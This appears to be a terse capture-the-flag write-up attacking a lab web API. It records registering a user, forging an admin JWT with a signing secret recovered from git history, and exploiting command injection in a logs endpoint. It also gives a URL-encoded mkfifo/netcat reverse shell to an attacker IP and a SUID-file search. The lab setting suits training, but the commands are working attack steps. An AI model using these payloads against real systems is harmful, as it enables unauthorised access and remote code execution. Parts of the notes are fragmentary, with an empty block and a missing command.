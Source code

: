 ***USER***

**Enumeration**
```
test
```

Log In 
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "root@dasith.works",
"password": "Kekc8swFgD6zU"
}'
```
But response returned, wrong password.

Register user
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/register' --data '{
"name": "testuser",
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with response `{"user":"testuser"}`

Log In with these credentials
```
curl -X POST -H 'Content-Type: application/json' -i 'http://10.10.11.120/api/user/login' --data '{
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
with succes and response `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw`

Try /priv
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGVzdHVzZXIiLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.WdLNQs7gWNqS1-zDfhXstyqoqm7Y2UUXK8E0tkIFkxw' -i 'http://10.10.11.120/api/priv' --data '{
"email": "testuser@dasith.works",
"password": "testuser"
}'
```
and response is `{"role":{"role":"you are normal user","desc":"testuser"}}`

Try login with forged JWT token with `TOKEN_SECRET=secret`
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.DTKfqkj0GUAI46OLUGTwoOnBEgbQ0PkWk9pVMUz95g4' -i 'http://10.10.11.120/api/priv'
```
But rejected

Look in `.git` and find file `logs/HEAD` with commit history and a commit with description `commit: removed .env for security reasons`
Go back to that commit with:

and login
```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/priv'
```

and we're in 
`{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`

```
curl -X GET -H 'Content-Type: application/json' -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;whoami'
```

and response `"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\ndasith\n"`

```
curl -X GET -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNmMDE2NDA4MGE4MjA0NWFiNWVjZjMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTY0ODI5NjM4M30.7XoBvpYsxSS4z1nQzHgCmkzGWn5quqV1orfQEPJ9038' -i 'http://10.10.11.120/api/logs?file=;rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.74%204242%20%3E%2Ftmp%2Ff'
```

***PrivEsc***

`find / -type f -perm -u=s 2>/dev/null`

Find `/opt/count` and visiting `/opt` there is a .c file also.


`strings CoreDump`





